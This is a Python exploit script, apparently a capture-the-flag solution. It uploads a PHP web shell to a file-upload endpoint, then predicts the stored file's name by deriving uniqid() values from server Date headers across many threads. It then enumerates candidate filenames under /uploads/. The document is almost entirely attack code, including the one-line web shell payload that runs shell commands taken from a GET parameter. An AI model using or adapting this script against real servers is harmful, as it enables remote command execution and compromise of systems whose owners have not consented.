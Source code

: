 ```python
class API:
    def __init__(self, url=URL):
        self.url = url
        self.s = requests.session()

    def post(self):
        res = self.s.post(self.url, files={
            "f": ("foo", "<?php system($_GET['a']); ?>")
        })
        return res

    def file(self, file):
        res = self.s.get(self.url+"/uploads/"+file)
        return res


class GetOptimal(threading.Thread):
    def __init__(self):
        threading.Thread.__init__(self)
        self.server = None

    def run(self):
        api = API()
        res = api.post()
        unqd = eval("0x"+uniqid(res.headers['Date']))
        self.server = unqd
        print("server:   ", hex(self.server))
        
def getOptimal():
    i = 100
    for _ in range(i):
        t = GetOptimal()
        t.start()

class GetFiles(threading.Thread):
    def __init__(self, filename):
        threading.Thread.__init__(self)
        self.isOk = False
        self.filename = filename

    def run(self):
        api = API()
        res = api.file(self.filename)
        if res.ok:
            print(self.filename)        


def getFiles():
    # The hex value is manually copied by observing the output of getOptimal() function and determining the value that appears the most.
    for i in range(0x6444b78f00000, 0x6444b78f00000+0xfffff):
        filename = hex(
            i)[2:]+"_2c26b46b68ffc68ff99b453c1d30413413422d706483bfa0f98a5e886266e7ae_foo"
        print(filename)

# getOptimal()
# getFiles()
```

